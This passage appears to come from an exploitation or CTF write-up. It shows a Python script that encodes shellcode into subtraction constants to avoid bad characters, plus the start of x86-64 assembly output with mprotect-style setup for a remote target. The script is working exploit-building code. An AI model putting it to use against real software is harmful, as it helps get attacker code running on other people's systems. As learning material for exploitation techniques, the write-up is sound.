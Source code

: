 Again, this hangs the remote program, confirming that this is a viable technique. I adjusted `encode.py` to generate the right constants. Prepare for some ultra-hacky python:

```python
import struct

carry = 0
def find_sub_bytes(byte_required):
    global carry
    b = ord(byte_required) - carry  # compensate for possible carry from previously encoded byte
    for i in range(256):
        if i not in badchars:
            c = b - i
            if (c & 0xff) not in badchars:
                carry = 0
                if c < 0:
                    carry = 1   # this carry is necessary, because the if the byte overflows, it is carried over to the next byte. 
                # return the two bytes that encode the required byte
                return chr(i), chr(c & 0xff)
    print "cannot find proper byte for {}".format(b)
    exit(-1)
        
badchars = [0x0, 0xa, 0xd, 0x2f, 0xff, 0xf, 0x5, 0x68]
for i in range(0x40, 0x82):
    badchars.append(i)
# paranoia!
for i in range(0x1, 0xf):
    badchars.append(i)
    
with open('shellcode') as sc:
    data = sc.read()
    sc.close()

storage = ''
encoded_bytes = ''
commands = ''
defines = ''
num_commands = 0

while len(data) % 4:
    data += "\x8f"
    
for b in data:
    (b1, b2) = find_sub_bytes(b)
    
    storage += b1
    encoded_bytes += b2
    if len(storage) == 4:
        # emit
        carry = 0   # clear carry, not necessary for next dword!
        commands += "_a{} dd {}\n".format(num_commands, hex(struct.unpack('<L', storage)[0]))
        defines += "_b{} dd {}\n".format(num_commands, hex(struct.unpack('<L', encoded_bytes)[0]))
        storage = ''
        encoded_bytes = ''
        num_commands += 1
                    
print """default rel
bits 64

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
```